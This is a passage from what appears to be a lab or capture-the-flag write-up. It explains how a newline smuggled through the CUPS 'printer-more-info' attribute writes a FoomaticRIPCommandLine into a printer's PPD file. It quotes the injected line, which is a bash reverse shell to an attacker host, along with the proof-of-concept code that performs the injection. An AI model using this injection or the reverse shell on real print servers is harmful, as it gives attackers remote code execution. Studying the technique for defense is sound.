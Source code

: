 The important line is:

```
*FoomaticRIPCommandLine: "bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1""

```

When it prints, it will run my reverse shell.

Just above it, there’s an empty parameter:

```
*APSupplies: ""
*FoomaticRIPCommandLine: "bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1""

```

That’s likely from the newline injection I mentioned [above](#poc-analysis):

```

                SectionEnum.printer,
                b'printer-more-info',
                TagEnum.uri
            ): [f'"\n*FoomaticRIPCommandLine: "{self.command}"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'.encode()],

```

`printer-more-info` must translate into the `APSupplies` attribute in the `.ppd` file, and then the new line starts the `FoomaticRIPCommandLine`.